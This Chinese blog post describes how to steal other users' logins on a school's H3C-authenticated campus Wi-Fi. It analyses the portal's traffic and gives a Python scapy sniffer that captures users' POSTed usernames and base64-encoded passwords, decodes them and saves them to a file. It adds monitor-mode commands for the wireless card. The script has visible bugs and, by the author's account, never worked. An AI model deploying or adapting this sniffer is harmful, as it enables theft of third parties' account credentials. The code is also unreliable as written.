







# 初步分析认证交互

该校校园网WIFI采用H3C认证，认证地址为内网某服务器上。url为[http://192.168.xxx.x:xxxx/portal/index_default.jsp](http://link.zhihu.com/?target=http%3A//192.168.150.2%3A8080/portal/)

## 查看DOM

发现了几个重要的函数。base64()、checkUserName()、encrypt()

base64是将输入的文本进行一次base64编码，checkUerName就是检查用户名，encrypt是将密码再进行一次加密。

base64是将输入的文本进行一次base64编码，checkUerName就是检查用户名，encrypt是将密码再进行一次加密。



## 分析网络流

首先使用火狐的firebug+检查元素来分析网络流。

当我们访问登陆页面时，发送GET请求并带一个i_p_pl的cookie

 

尝试登陆，登陆成功跳转到[http://192.168.xxx.x:xxxx/portal/page/loginSucc.jsp**](http://link.zhihu.com/?target=http%3A//192.168.xxx.x%3Axxxx/portal/succese.jsp)，发送了*个GET请求，除去图片和脚本，此次登陆只向/portal/loginSucc.jsp发送了GET包，除了i_p_pl，还带有hello1、hello2两个个cookie，其中hello1为登陆发送的username，hello2暂不明其含义。

在后来的测试中，发现hello2是【记住登陆】功能的参数，当hello2=false时不记住，hello2=true时记住并附带hello3、hello4、hello5参数，本来应当是可以利用这些cookie来绕过登陆直接请求认证的，不过考虑到其又要增加工作量，因此先放一边。



这就很奇怪了，在整个登陆过程全部都是GET请求而没有POST请求，没有POST请求是怎么把用户名密码传输上去认证的呢？况且之前已经在DOM中发现了base64encode()和query()函数。难道用户名和密码是在GET时Cookie中传上去的？。虽然不用想就知道GET发送cookie来登陆很扯，但还是要研究一下cookie的含义。



## 探究cookie含义

登陆时发送的i_p_pl

i_p_pl=JTdCJTIyZXJyb3JOdW1iZXIlMjIlM0ElMjIxJTIyJTJDJTIybmV4dFVybCUyMiUzQSUyMmh0dHAlM0ElMkYlMkYxOTIuMTY4LjE1MC4yJTNBODA4MCUyRnBvcnRhbCUyRmluZGV4X2RlZmF1bHQuanNwJTIyJTJDJTIycXVpY2tBdXRoJTIyJTNBZmFsc2UlMkMlMjJjbGllbnRMYW5ndWFnZSUyMiUzQSUyMkNoaW5lc2UlMjIlMkMlMjJhc3NpZ25JcFR5cGUlMjIlM0EwJTJDJTIyaU5vZGVQd2ROZWVkRW5jcnlwdCUyMiUzQTElMkMlMjJ3bGFubmFzaWQlMjIlM0ElMjIlMjIlMkMlMjJ3bGFuc3NpZCUyMiUzQSUyMiUyMiUyQyUyMm5hc0lwJTIyJTNBJTIyJTIyJTJDJTIyYnlvZFNlcnZlcklwJTIyJTNBJTIyMC4wLjAuMCUyMiUyQyUyMmJ5b2RTZXJ2ZXJJcHY2JTIyJTNBJTIyMDAwMCUzQTAwMDAlM0EwMDAwJTNBMDAwMCUzQTAwMDAlM0EwMDAwJTNBMDAwMCUzQTAwMDAlMjIlMkMlMjJieW9kU2VydmVySHR0cFBvcnQlMjIlM0ElMjI4MDgwJTIyJTJDJTIyaWZUcnlVc2VQb3B1cFdpbmRvdyUyMiUzQWZhbHNlJTJDJTIydWFtSW5pdEN1c3RvbSUyMiUzQSUyMjElMjIlMkMlMjJjdXN0b21DZmclMjIlM0ElMjJNUSUyMiUyQyUyMnJlZ0NvZGVUeXBlJTIyJTNBJTIyTUElMjIlN0Q

很明显这是一个base64编码过的字符串，把这个base64解码再url解码，就得到了

{“errorNumber”:”1”,”nextUrl”:”[http://192.168.xxx.x:xxxx/portal/index_default.jsp**](http://link.zhihu.com/?target=http%3A//192.168.150.2%3A8080/portal/index_default.jsp)“,”quickAuth”:false,”clientLanguage”:”Chinese”,”assignIpType”:0,”iNodePwdNeedEncrypt”:1,”wlannasid”:””,”wlanssid”:””,”nasIp”:””,”byodServerIp”:”0.0.0.0”,”byodServerIpv6”:”0000:0000:0000:0000:0000:0000:0000:0000”,”byodServerHttpPort”:”8080”,”ifTryUsePopupWindow”:false,”uamInitCustom”:”1”,”customCfg”:”MQ”,”regCodeType”:”MA”}

这只是向无线路由器发送的表明自己身份的未完成的表单，没有我们要的用户名和密码。

# 完整认证过程

只有GET请求果然很扯，这很有可能是我们的浏览器网络流分析工具有些问题，或者该Web认证的安全性足够好，导致我们无法截取完整的请求流。

这样就只有用Wireshark来对网卡进行完全的监听，以抓取全部流量包。

设置Capture interface为 WLAN 无线网卡，开启抓取后重现登陆过程。

抓到的流量包除了访问该认证网站的http流，还包括了所有经过该无线网卡的所有协议的网络流。



设置过滤规则为http协议并且只有该认证网址ip。

发现登录一次h3c系统，要先后传参给3个页面，一个/pws？t=li，一个/afterlogin.jsp,一个/loginSucc.jsp，所以就分别看这几个网页的抓包数据。

发现其cookie都是一样的，但是只有pws这个页面是POST请求。

 

查看pws应用层传输的数据，发现上传了【userName】和【userPwd】参数，也就是说，只有这个页面是验证密码的。

【userName】就是登陆的用户名，【userPwd】是经过base64编码后的密码。

 

# 总结思路

我们可以抓取用户登陆时的POST请求来获取用户名和密码，也可以在用户勾选【记住密码】时获取带有用户名密码信息的cookie。

1. 当抓到client ==> server的数据包时

- 如果是GET请求，检查有没有Cookie存在。
- 如果是POST请求，把用户名和密码拿出来。
- 检查是否有set-cookie头部，有的话取出来。

最后如果有cookie被嗅探到，就带着cookie把向server索要一下密码。

**但是为了偷懒，这里就不嗅探cookie了，直接嗅探POST的用户名和密码就行了。最终思路如下：**

当抓到client ==> server的数据包时，如果是POST请求，直接把用户名和密码拿出来。

# 嗅探

**实验环境**

- Ubuntu虚拟机
- 大功率USB无线网卡（8187等）
- python2.7

**python扩展库需要**

- requests
- scapy
- scapy_http
- lxml

** 代码

```python
import requests
import scapy_http.http as http
from scapy.all import *
from lxml import etree
iface = 'wlan0'
url = "http://192.168.xxx.x:xxxx/portal/pws?t=li"
path = "/root"
def prn(pkt):
    data = None
    #std ==> ap    
    if pkt.haslayer(http.HTTPRequest):
        #if post the username and password
        if pkt.Method == 'POST' and 'userName' in pkt.load:            
            dt = {i.split("=")[0]:i.split("=")[1] for i in pkt.load.split("&")}        
            data = ":::".join((dt["userName"],dt["userPwd"][3:].decode("base64"))) + '\n'        
            print '[+]Get! Post data:%s %s %s %s'%(dt['userName'],dt['userPwd'])    
            if data != None:
                with open(path + "schoolUserPwd.txt", "a") as txt:    
                    txt.write(data)
def main():    
    try:        
        sniff(iface=iface, prn=prn, filter="ip host 192.168.xxx.x", store=0)    
        #sniff(offline=path + "school.pcap", prn=prn, filter="ip host 192.168.xxx.x")    
        except KeyboardInterrupt, e:        
            print "quitting..."
if __name__ == '__main__':    
    main()
```

**说明**

- requests用来向服务器请求
- scapy用来在无线网络中嗅探
- scapy_http用来对http协议更方便的解析
- lxml用来从服务器返回的html文件中，解析出来用户名和密码
- prn是sniff函数每过滤到一个符合条件的数据包时回调的函数，并将数据包本身作为参数传入
- 之所以选择Ubuntu而不是Windows是因为scapy_http在win下运行有些问题

**注意**

由于我们既要嗅探，同时又要向服务器请求，所以airmon-ng check kill后，无线网卡开启monitor模式，再将网卡调到信号最强的ap的信道上。之前经过kismet抓取无线网包发现该校园网WIFI是在channel 1/6/11信道上工作的。

最后再打开网络管理的服务。

执行以下命令

```
$sudo airmon-ng check kill
$sudo ifconfig wlan0 down
$sudo iwconfig wlan0 mode monitor
$sudo ifconfig wlan0 up
$sudo iwconfig mon0 channel 1/6/11
$sudo service network-manager start
```

**结果**

由于之前买的无线网卡是劣质品无法识别，因此暂无结果。

理论上是可以嗅探到的，等成功嗅探后再补发。

# 参考

参考Freebuf的[如何在开放无线网络中嗅探校园网密码**](http://link.zhihu.com/?target=http%3A//www.freebuf.com/articles/network/129721.html)这篇文章提供的python脚本，针对该校的网络进行了一些修改。